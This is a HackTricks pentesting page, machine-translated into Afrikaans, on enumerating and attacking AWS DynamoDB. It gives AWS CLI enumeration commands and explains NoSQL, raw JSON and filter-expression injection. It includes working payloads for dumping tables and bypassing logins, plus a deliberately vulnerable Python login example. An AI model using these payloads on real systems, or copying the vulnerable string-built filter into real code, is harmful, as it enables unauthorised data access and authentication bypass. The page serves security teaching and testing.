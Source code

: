 # AWS - DynamoDB Enum

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basiese Inligting

Amazon DynamoDB word deur AWS aangebied as 'n **volledig bestuurde, serverlose, sleutel-waarde NoSQL databasis**, ontwerp om hoë-prestasie toepassings te ondersteun ongeag hul grootte. Die diens verseker robuuste kenmerke, insluitend inherente sekuriteitsmaatreëls, ononderbroken rugsteun, geoutomatiseerde replikaasies oor verskeie streke, geïntegreerde in-geheue kas, en gerieflike data-uitvoer nutsprogramme.

In die konteks van DynamoDB, in plaas daarvan om 'n tradisionele databasis op te stel, **word tafels geskep**. Elke tafel vereis die spesifikasie van 'n **partisie sleutel** as 'n integrale komponent van die **tafel se primêre sleutel**. Hierdie partisiesleutel, wat essensieel 'n **hash waarde** is, speel 'n kritieke rol in beide die herwinning van items en die verspreiding van data oor verskeie gasheers. Hierdie verspreiding is van kardinale belang om beide skaalbaarheid en beskikbaarheid van die databasis te handhaaf. Daarbenewens is daar 'n opsie om 'n **sorteersleutel** in te sluit om data-organisasie verder te verfyn.

### Enkripsie

Standaard gebruik DynamoDB 'n KMS-sleutel wat \*\*aan Amazon DynamoDB behoort,\*\* nie eens die AWS bestuurde sleutel wat ten minste aan jou rekening behoort nie.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Rugsteun & Uitvoer na S3

Dit is moontlik om **die generasie van tafelrugsteun** te **skeduleer** of om dit op **aanvraag** te skep. Boonop is dit ook moontlik om **Punt-in-tyd herstel (PITR) vir 'n tafel in te skakel.** Punt-in-tyd herstel bied deurlopende **rugsteun** van jou DynamoDB data vir **35 dae** om jou te help beskerm teen onopsetlike skryf- of verwyderingsoperasies.

Dit is ook moontlik om **die data van 'n tafel na S3 uit te voer**, maar die tafel moet **PITR geaktiveer** hê.

### GUI

Daar is 'n GUI vir plaaslike Dynamo dienste soos [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), ens., wat nuttig kan wees: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumerasie
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Ongeauthentiseerde Toegang

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Post Exploitatie

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Volharding

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB Inspuiting

### SQL Inspuiting

Daar is maniere om toegang te verkry tot DynamoDB data met **SQL-sintaksis**, daarom is tipiese **SQL inspuitings ook moontlik**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL Inspuiting

In DynamoDB kan verskillende **voorwaardes** gebruik word om data te verkry, soos in 'n algemene NoSQL Inspuiting. As dit moontlik is om **meer voorwaardes te ketting om** data te verkry, kan jy verborge data verkry (of die hele tabel dump).\
Jy kan hier die voorwaardes vind wat deur DynamoDB ondersteun word: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

Let daarop dat **verskillende voorwaardes** ondersteun word as die data via **`query`** of via **`scan`** verkry word.

{% hint style="info" %}
Werklik, **Query** aksies moet die **voorwaarde "EQ" (gelyk)** in die **primêre** sleutel spesifiseer om te werk, wat dit baie **minder geneig maak tot NoSQL inspuitings** (en ook die operasie baie beperk maak).
{% endhint %}

As jy die **vergelyking** wat uitgevoer word kan **verander** of nuwe kan byvoeg, kan jy meer data verkry.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Rauwe Json-inspuiting

{% hint style="danger" %}
**Hierdie kwesbaarheid is gebaseer op dynamodb Scan Filter wat nou verouderd is!**
{% endhint %}

**DynamoDB** aanvaar **Json**-objekte om **data** binne die DB te **soek**. As jy vind dat jy in die json-objek wat gestuur word om te soek, kan skryf, kan jy die DB dump, al die inhoud.

Byvoorbeeld, inspuiting in 'n versoek soos: 

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

'n aanvaller kan iets soos hierdie inspuit:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

regstel die "EQ" voorwaarde wat soek na die ID 1000 en dan soek na al die data met 'n Id-string groter as 0, wat alles is.

Nog 'n **kwetsbare voorbeeld wat 'n aanmelding gebruik** kan wees:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
Dit sou kwesbaar wees vir:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Sommige SDK's laat jou toe om 'n string te gebruik wat die filtrering aandui wat uitgevoer moet word soos: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Jy moet weet dat wanneer jy in DynamoDB soek om 'n attribuut **waarde** in **filteruitdrukkings** te **vervang** terwyl jy die items skandeer, die tokens moet **begin** met die **`:`** karakter. Sulke tokens sal met die werklike **attribuutwaarde tydens uitvoering** **vervang** word.

Daarom kan 'n aanmelding soos die vorige omseil word met iets soos:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
